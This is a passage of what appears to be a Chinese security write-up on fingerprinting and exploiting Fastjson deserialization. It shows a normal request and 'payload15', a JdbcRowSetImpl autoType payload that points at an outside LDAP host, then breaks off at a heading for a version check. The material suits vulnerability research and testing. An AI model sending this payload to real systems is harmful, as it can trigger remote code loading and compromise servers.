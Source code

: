 正常传参：

```plain
{"name":"admin","email":"admin","content":"admin"}
```

`payload15`：

```plain
{"name":"admin","email":"admin","content":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://aclarecpsj.dgrh3.cn/POC","autoCommit":true}}
```

[![](assets/1706959415-f7653949d986ffc37738de061d8b837f.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203154-b93ea502-bb7d-1.jpeg)  
[![](assets/1706959415-a7b8c225eb92d5fbb1da9327eb2e88c1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203155-b9f113fe-bb7d-1.jpeg)

### 2.2.2 判断 1.2.37<=version<=1.2.83

`payload16`：
